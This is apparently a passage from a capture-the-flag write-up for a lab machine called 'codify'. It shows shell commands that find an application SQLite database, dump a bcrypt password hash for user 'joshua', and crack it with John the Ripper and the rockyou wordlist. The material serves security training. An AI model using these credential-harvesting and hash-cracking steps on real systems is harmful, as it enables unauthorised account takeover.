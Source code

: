 ```bash
/var/cache/man/id/index.db
/var/cache/man/ja/index.db
/var/cache/man/sl/index.db
/var/www/contact/tickets.db
/var/lib/plocate/plocate.db
/var/lib/fwupd/pending.db
/var/lib/PackageKit/transactions.db
/var/lib/command-not-found/commands.db
/usr/lib/firmware/regulatory.db
```

The dir `/var/www/contact/` stands out to me, so I verified `tickets.db` db file.
```bash
svc@codify:~$ file /var/www/contact/tickets.db
/var/www/contact/tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17

svc@codify:~$ strings /var/www/contact/tickets.db
SQLite format 3
otableticketstickets
CREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
	tableusersusers
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
    ))
indexsqlite_autoindex_users_1users
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
joshua
users
tickets
Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open
Tom HanksNeed networking modulesI think it would be better if you can implement a way to handle networking-based stuff. Would help me out a lot. Thanks!open
```

Great progress, a hash with an username `joshua` which is in our `/etc/passwd`, let's crack it
```bash
echo -n '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' | tee joshua.hash

john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt joshua.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:42 0.01% (ETA: 2024-01-02 14:20) 0g/s 28.99p/s 28.99c/s 28.99C/s franklin..warren
spongebob1       (?)     
1g 0:00:00:47 DONE (2023-12-26 16:17) 0.02107g/s 28.83p/s 28.83c/s 28.83C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
